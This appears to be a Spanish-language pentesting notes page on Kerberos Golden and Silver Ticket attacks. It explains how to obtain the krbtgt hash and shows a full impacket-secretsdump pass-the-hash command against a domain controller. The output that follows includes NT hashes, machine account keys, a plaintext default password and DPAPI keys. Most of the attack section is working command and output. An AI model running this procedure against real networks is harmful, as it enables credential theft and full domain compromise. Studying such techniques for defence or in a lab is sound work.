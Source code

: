 ```yaml
---
icon: coin-front
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberos Golden Ticket y Silver Ticket

Con esta tecnica lo que podemos hacer es montarnos nuestros propios `TGT's` y `Tickets` de servicio.

Lo que tendremos que hacer de primeras es obtener el `hash` del usuario `krbtgt` que es el que cifra con su clave privada los `TGT's` y demas informacion, por lo que tendremos que obtener unicamente su `hash` y se puede hacer de varias forma, una de ellas con una vulnerabilidad de `DCSync` como vimos anteriormente.

Si nosotros realizamos un volcado de la `SAM` como vimos anteriormente una vez obtenido del `hash` del `administrador` de dominio en `kali` de la siguiente forma:

```shell
impacket-secretsdump Administrator@192.168.5.5 -hashes :a87f3a337d73085c45f9416be5787d86
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x52d140c469db2c66b93d05a05f280802
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\DC01$:aes256-cts-hmac-sha1-96:42e6d83a65fa4fc7246f8ee733d26121a49a9b7fb79f8c820486766930eb6b55
CORP\DC01$:aes128-cts-hmac-sha1-96:dc0559121ad2f325f3adfd4ef3a40810
CORP\DC01$:des-cbc-md5:980bdc04c4f2ea73
CORP\DC01$:plain_password_hex:d7da285f5194608f957b5ea6c42c3cb9b7322a82125103f7a1c9e8926f63716004b8cf98a473fc6d5e87ccf3709a600703b571c53e05e7c952d94591fa86f4fce21046672731b53a2a43a68b2a608b88319a00abb4491a030e35b96bdcd77e2488d1a4f34bc7083618a3275def0ae4d468cd39e619c1f92f11829e2e958bcdd80c141f00cc56a878999e388a6f8aa4af33082a2bf9f36eef139fb88ee2f5a1743b151c822055b9b39914bc0fbb7ef692dc390cbf1f2a38e6f6542108af129719edb900893bc04c436084a85ed03c66da05be935ac87d4fd2591a17c76d69b2f6f24d88dfa65a404fbe36d14f38ff5d5f
CORP\DC01$:aad3b435b51404eeaad3b435b51404ee:0a293c84079cceb0350201b4477561f3:::
[*] DefaultPassword 
CORP\Administrador:Passw0rd
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xecca8eedfcd9eb1bfaa4e03106e41206d125bdad
dpapi_userkey:0xbbeae8ca12481039a05a0bae4fd17749a41a6638
```